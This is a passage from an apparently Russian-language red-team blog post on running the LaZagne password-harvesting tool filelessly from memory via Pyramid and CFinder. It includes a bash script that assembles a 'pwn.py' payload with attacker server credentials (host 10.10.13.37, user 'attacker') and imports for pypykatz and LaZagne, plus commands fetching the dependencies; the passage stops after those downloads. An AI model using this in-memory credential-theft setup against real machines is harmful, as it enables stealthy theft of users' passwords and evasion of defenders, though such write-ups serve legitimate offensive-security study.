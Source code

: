 Хагрид бы гордился нами 😢
{:.quote}

## LaZagne

Помня [о мечте](https://twitter.com/shitsecure/status/1428063492255453189) многих моих коллег по цеху, а именно о возможности запуска сборщика лута [LaZagne](https://github.com/AlessandroZ/LaZagne) из памяти, воплощение этой идеи — первое, чем я занялся, когда начал играть с Pyramid. На этом примере покажем, как можно портировать любой питоновский модуль для безфайлового импорта с помощью CFinder.

Для начала составим список зависимостей, которые нам понадобятся для корректного запуска LaZagne. Я делал это методом проб и ошибок, потому что я ленивый, но правильнее было бы посмотреть на [requirements.txt](https://github.com/AlessandroZ/LaZagne/blob/master/requirements.txt) «Лазаньи», потом на [install_requires](https://github.com/skelsec/pypykatz/blob/master/setup.py#L53-L63) Pypykatz и вычленить из этого списка только то, которые реально используется в LaZagne. У меня получился такой список:

```bash
#!/usr/bin/env bash

cat << EOT > pwn.py
PYRAMID_HOST = '10.10.13.37'
PYRAMID_PORT = '443'
PYRAMID_USERNAME = 'attacker'
PYRAMID_PASSWORD = 'Passw0rd1!'
PYRAMID_TO_UNPACK = ('Cryptodome',)
PYRAMID_TO_IMPORT = (
    'future',
	'pyasn1',
	'rsa',
	'asn1crypto',
	'unicrypto',
	'minidump',
	'minikerberos',
	'pypykatz',
	'lazagne',)

LAZAGNE_MODULE = 'all'
LAZAGNE_VERBOSITY = '-vv'  # '' / '-v' / '-vv'
EOT

cat {cfinder,lazagne}.py >> pwn.py
```

Выгрузим все зависимости в исходниках локально к себе на машину:

```terminal?prompt=$
~$ wget https://files.pythonhosted.org/packages/45/0b/38b06fd9b92dc2b68d58b75f900e97884c45bedd2ff83203d933cf5851c9/future-0.18.2.tar.gz
~$ tar -xf future-0.18.2.tar.gz && rm future-0.18.2.tar.gz
~$ git clone https://github.com/etingof/pyasn1
~$ wget https://files.pythonhosted.org/packages/aa/65/7d973b89c4d2351d7fb232c2e452547ddfa243e93131e7cfa766da627b52/rsa-4.9.tar.gz
~$ tar -xf rsa-4.9.tar.gz && rm rsa-4.9.tar.gz
~$ git clone https://github.com/wbond/asn1crypto
~$ git clone https://github.com/skelsec/unicrypto
~$ git clone https://github.com/skelsec/minidump
~$ git clone https://github.com/skelsec/minikerberos
~$ git clone https://github.com/skelsec/pypykatz
~$ git clone https://github.com/AlessandroZ/LaZagne
```
